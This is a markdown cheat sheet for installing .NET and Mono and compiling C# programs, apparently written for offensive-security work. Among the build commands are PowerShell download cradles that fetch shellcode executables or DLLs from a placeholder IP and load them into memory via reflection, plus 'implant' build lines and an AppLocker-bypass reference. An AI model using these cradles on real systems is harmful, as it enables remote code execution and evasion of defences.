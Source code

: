 # CSharp

Search Tag(s): #command-line #compiler #dotnet

## 01 - DotNET Compiler

### 1.1 - Setup

Setup Dotnet SDK

```
$ sudo ./dotnet-install.sh -i /usr/share/dotnet -c 6.0
```

Completely uninstall specific dotnet version

```bash
SDK_VERSION="5.0.16"
DOTNET_VERSION="5.0.213"
DOTNET_UNINSTALL_PATH="/usr/share/dotnet"
rm -rf $DOTNET_UNINSTALL_PATH/sdk/$SDK_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.NETCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.All/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/host/fxr/$DOTNET_VERSION
```

### 1.2 - Compile Program

Create .NET Console Project.

```
> dotnet new console [-o <project_name>]
```

Compile C# Project of Windows executable

```
> dotnet publish [/path/to/project/] -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true

> dotnet publish [/path/to/project/] -r win10-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true

> dotnet publish [/path/to/project/] -f net6.0 -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true
```

Or you can just use `build`.

```
> dotnet build [/path/to/project/] -r win-x64 -c Release [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true

> dotnet build [/path/to/project/] -r win-x64 -c Release [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true
```

Download the cradle and load it from memory.

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.exe")
$assem = [System.Reflection.Assembly]::Load($data)
[Shell.Program()]::Main()
# [Program()]::Main()
# [Shell.Program()]::Main("".Split())
```

Create and Compile C# DLL

```
> dotnet new classlib [-o <project_name>]

> dotnet publish [/path/to/project/] -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishTrimmed=true

> dotnet build [/path/to/project/] -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishTrimmed=true
```

Execute shellcode.

```powershell
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
[RunDLLPublicFunc.Class1]::runner()
```

Download the cradle and load it from memory.

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")
$assembly = [System.Reflection.Assembly]::Load($data)
$class = $assembly.GetType("Shellcode.Class1")
$method = $class.GetMethod("<method_name>")
$method.Invoke(0, $null)
```

## 02 - Mono Compiler

### 2.1 - Setup

#### 2.1.1 - Install via package manager

##### 2.1.1.1 - Ubuntu distros

Add the repository.

```
$ sudo apt install -y ca-certificates gnupg
sudo gpg --homedir /tmp --no-default-keyring --keyring /usr/share/keyrings/mono-official-archive-keyring.gpg --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb [signed-by=/usr/share/keyrings/mono-official-archive-keyring.gpg] https://download.mono-project.com/repo/ubuntu stable-focal main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
```

##### 2.1.1.2 - Debian distros

```
$ sudo apt install -y dirmngr ca-certificates gnupg
sudo gpg --homedir /tmp --no-default-keyring --keyring /usr/share/keyrings/mono-official-archive-keyring.gpg --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb [signed-by=/usr/share/keyrings/mono-official-archive-keyring.gpg] https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
```

Install the package.

```
$ sudo apt install -y mono-complete
```

##### 2.1.1.3 - Arch distros

```
$ sudo pacman -S --noconfirm mono
```

#### 2.1.2 - Manually install the compiler

Install required dependencies.

```
$ sudo apt install -y git autoconf libtool automake build-essential gettext cmake python3 curl
```

Download a stable release package and install it.

```
$ wget https://download.mono-project.com/sources/mono/mono-6.12.0.199.tar.xz && \
tar xf mono-6.12.0.199.tar.xz && cd mono-6.12.0.199 && \
./configure --prefix=/usr/local/ && make && make install
```

### 2.2 - Compile Program

Build a solution project.

```
$ xbuild file.csproj

$ xbuild file.sln
```

Compile a `.exe` binary.

```
$ mcs [-unsafe-] -sdk:<2 | 4 | 4.5> -out:implant.exe [-recurse:*.cs] Program.cs
```

Compile a `.dll` binary.

```
$ mcs [-unsafe-] -sdk:<2 | 4 | 4.5> -target:library -out:implant.dll [-recurse:*.cs] Program.cs
```

---
## References

- [Mono Project](https://www.mono-project.com/)

- [Arch Linux Wiki .NET](https://wiki.archlinux.org/title/.NET)

- [Pentestlab Blog: Applocker Bypass Assembly Load](https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/)

- [https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481)